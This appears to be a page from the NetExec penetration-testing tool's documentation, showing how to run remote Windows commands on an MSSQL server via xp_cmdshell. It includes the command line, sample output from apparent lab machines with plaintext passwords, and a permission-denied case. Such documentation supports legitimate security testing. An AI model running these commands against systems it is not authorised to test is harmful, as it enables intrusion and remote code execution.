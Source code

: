 ```yaml
---
description: Execute Windows command using NetExec
---
```


# Windows command

### Execute Windows Command

This option use `xp_cmdshell` to exec command on the remote host.

```bash
nxc mssql $TARGET -u $USER -p $PASSWORD --local-auth -x whoami
MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)
MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------
MSSQL       10.10.10.59     1433   None             tally\sarah
```

If permission is **DENIED**:

```bash
MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)
MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec
MSSQL       10.10.10.52     1433   None             None
```

{% hint style="info" %}
When playing with MSSQL, you can use the tool [MSDAT ](https://github.com/quentinhardy/msdat)from [quentinhardy](https://github.com/quentinhardy)
{% endhint %}

{% embed url="https://github.com/quentinhardy/msdat" %}
